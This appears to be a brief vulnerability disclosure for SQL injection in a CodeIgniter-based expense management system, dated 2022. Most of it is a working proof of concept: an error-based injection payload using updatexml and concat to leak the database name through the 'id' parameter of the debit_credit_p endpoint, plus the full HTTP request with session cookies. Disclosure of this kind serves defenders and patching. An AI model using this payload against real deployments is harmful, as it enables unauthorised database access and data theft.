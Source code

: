 # php-codeigniter-expense-management-system v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php-codeigniter-expense-management-system-source-code

Date: 2022-07-24

Vulnerability File: /ci_ems/Home/debit_credit_p

Vulnerability location: /ci_ems/Home/debit_credit_p?id=18, id

[+] Payload: id=18'+and++updatexml(1,concat(0x7e,(select+database()),0x7e),0)--+

Tested on Windows 10, XAMPP

```
GET /ci_ems/Home/debit_credit_p?id=18'+and++updatexml(1,concat(0x7e,(select+database()),0x7e),0)--+ HTTP/1.1
Host: 172.20.10.13
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://172.20.10.13/ci_ems/Home/view_clients
Cookie: PHPSESSID=hs2g51l1gmlikit3icuq6kf4an; ci_session=a7e1tk4u5ih48n1d88etb314b7gv37qn
Upgrade-Insecure-Requests: 1


```

![](https://github.com/mikeccltt/0724/blob/main/ci_ems/sql.gif?raw=true)


